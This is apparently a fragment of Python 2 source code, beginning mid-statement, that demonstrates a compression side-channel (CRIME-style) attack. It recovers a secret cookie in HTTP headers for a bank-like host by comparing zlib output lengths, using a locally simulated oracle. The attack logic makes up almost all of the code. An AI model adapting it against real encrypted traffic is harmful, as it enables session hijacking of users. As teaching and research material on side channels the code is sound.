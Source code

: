 ```
           "Accept: */*\r\n"
           "Referer: https://thebankserver.com/\r\n"
           "Cookie: secret="+COOKIE+"\r\n"
           "Accept-Encoding: gzip,deflate,sdch\r\n"
           "Accept-Language: en-US,en;q=0.8\r\n"
           "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.3\r\n"
           "\r\n")
BODY =    ("POST / HTTP/1.1\r\n"
           "Host: thebankserver.com\r\n"
           "Connection: keep-alive\r\n"
           "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/22.0.1207.1 Safari/537.1\r\n"
           "Accept: */*\r\n"
           "Referer: https://thebankserver.com/\r\n"
           "Cookie: secret=")
cookie = ""
 
def compress(data):
 
    c = zlib.compressobj()
    return c.compress(data) + c.flush(zlib.Z_SYNC_FLUSH)
def getposset(perchar,chars):
    posset = []
    baselen = len(compress(HEADERS+perchar))
    for i in chars:
        t = len(compress(HEADERS+ perchar+i))
        if (t<=baselen):
            posset += i
    return posset
def doguess():
    global cookie
    while len(cookie)<30:
        posset = getposset(BODY+cookie,charset)
        trun = 1
        tem_posset = posset
        while 1<len(posset):
            tem_body = BODY[trun:]
            posset = getposset(tem_body+cookie,tem_posset)
            trun = trun +1
        if len(posset)==0:
            return False
        cookie += posset[0]
        print posset[0]
        return True
 
while BODY.find("\r\n")>=0:
    if not doguess():
        print "(-)Changebody"
        BODY = BODY[BODY.find("\r\n") + 2:]
print "(+)orign  cookie"+COOKIE
print "(+)Gotten cookie"+cookie

```

